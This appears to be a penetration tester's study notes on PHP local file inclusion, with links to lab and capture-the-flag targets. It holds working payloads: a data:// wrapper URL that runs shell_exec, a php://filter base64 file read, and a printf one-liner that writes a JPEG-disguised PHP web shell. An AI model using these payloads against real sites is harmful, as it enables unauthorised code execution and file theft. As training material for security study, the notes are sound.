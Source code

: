 #### Using wrappers
### data
Represent a string on the web page
```bash
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```
![[Pasted image 20220905144914.png]]
Shell with data
```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
![[Pasted image 20220905144942.png]]
[[pain - 10.11.1.35#^f0daaa]]
### php://filter
Read file with base64 encode:
```php
php://filter/convert.base64-encode/resource=index.php
```
Examples:
[[StreamIO#^c6abe1]]
[[StreamIO#^56bdc2]]
[[StreamIO#^2912d9]]
[[StreamIO#^6f66d1]]

#### Bypassing restrictions
Using magic number to bypass jpeg restriction:
```bash
printf '\xff\xd8\xff<?=`{$_GET["cmd"]}`;>' > sploit.php
```
Examples:
[ECHO CTF Cupidme](https://echoctf.red/target/33/writeup/read/7)

#### Common Attacks
![[Pasted image 20220811010103.png]]
## PHP FILTER CHAIN GENERATOR

TODO
Resources:  
[https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator "https://github.com/synacktiv/php_filter_chain_generator")